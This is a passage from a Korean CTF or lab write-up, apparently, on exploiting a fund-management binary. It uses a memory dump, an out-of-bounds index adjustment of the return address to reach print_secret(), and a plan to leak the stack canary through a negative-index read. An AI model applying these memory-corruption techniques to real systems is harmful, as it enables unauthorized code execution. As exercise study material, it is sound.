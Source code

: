 ```nasm
0x7fffffffd6f0: 0x0000000000000000      0x6d9532384a039a00
	#	item[21]  item[20]      item[23]  item[22]
0x7fffffffd700: 0x0000000000000001      0x00000000004014fa  # return address!
```

이제 실제 return address의 값을 알았다.
실제 return address와 내가 바꾸고 싶은 address의 차이를 온라인 hex calculator로 계산하였다.
![200](../../../../z.%20Docs/img/Pasted%20image%2020241016043438.png)

그럼 return address를 수정했다고 하자. 이게 끝이 아니다.
`manage_fund()`함수를 빠져나오며 ret를 통해 return address가 수행되도록 해야한다.

🔫 그렇다면 전체 Exploit 과정은 다음과 같을 것이다.
1. menu 2로 진입
2. 인덱스 22에 해당하는 값을 804만큼 감소시킨다.
3. menu 3으로 `manage_fund()` 함수에서 exit
```
=== Manage your fund portfolio ===
1. Check your portfolio
2. Rebalance the portfolio
3. Retire from the market
(Enter 1~3): 2
Input the ID of item you want to withdraw money from: 22
Input the ID of item you want to invest more money: 2
Decide how much to move: 804        // return address changed.
=== Manage your fund portfolio ===
1. Check your portfolio
2. Rebalance the portfolio
3. Retire from the market
(Enter 1~3): 3                      // ret
Secret file content is: 272cd04e    // print_secret() Executed!
```

그럼 위와 같이 `print_secret()`를 수행할 수 있게된다.

## 2-5
> `read_memo()` i의 값이 음수인지 체크를 하지 않는 점을 이용해서 Canary 값의 Memory Disclosure를 일으킨다.

N-0x18: canary
N-0x8: return addr
N: rsp
N+0x20: `marr[]`
N+0x138: canary
N+0x148: return addr

